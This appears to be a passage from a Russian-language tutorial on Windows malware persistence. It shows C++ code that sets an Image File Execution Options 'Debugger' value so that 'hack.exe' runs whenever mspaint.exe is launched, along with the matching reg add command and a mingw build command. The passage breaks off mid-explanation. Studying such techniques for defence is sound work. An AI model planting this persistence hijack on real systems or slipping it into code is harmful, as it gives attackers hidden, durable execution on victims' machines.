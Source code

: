 ```cpp
  const char* exe = "hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\mspaint.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, 
    strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Компилируем:   

```bash
x86_64-w64-mingw32-g++ -O2 pers2.cpp -o pers2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/68/2022-09-12_03-00.png){width="80%"}    

Пример работы этого метода на практике:    

